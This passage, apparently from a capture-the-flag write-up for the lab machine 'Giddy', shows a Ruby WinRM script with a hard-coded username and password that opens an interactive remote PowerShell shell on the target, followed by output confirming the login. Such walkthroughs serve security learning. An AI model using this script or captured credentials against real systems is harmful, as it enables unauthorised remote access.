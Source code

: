 ```
```

### Alternate shell method

Instead of using the Web Powershell interface, we can also log in with WinRM. To do that under Linux, I used [Alamot's](https://github.com/Alamot/code-snippets/tree/master/winrm) WinRM ruby script:

```ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new( 
  endpoint: 'http://10.10.10.104:5985/wsman',
  #transport: :ssl,
  user: 'stacy',
  password: 'xNnWo6272k7x',
  #:client_cert => 'certnew.cer',
  #:client_key => 'privateKey.key',
  #:no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```

```
~/code-snippets/winrm# ruby giddy.rb 
PS giddy\stacy@GIDDY Documents> whoami
giddy\stacy
```